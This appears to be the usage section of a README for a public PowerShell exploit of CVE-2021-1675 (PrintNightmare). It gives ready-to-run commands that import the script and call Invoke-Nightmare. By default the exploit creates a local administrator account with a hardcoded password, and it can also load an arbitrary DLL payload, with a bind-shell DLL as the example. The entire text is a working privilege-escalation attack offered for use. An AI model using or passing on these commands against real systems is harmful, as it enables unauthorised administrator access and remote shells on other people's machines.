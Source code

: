 ## Usage

Add a new user to the local administrators group by default:

```shell
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default

Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure" 
```

Supply a custom DLL payload, to do anything else you might like.

```shell
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
```
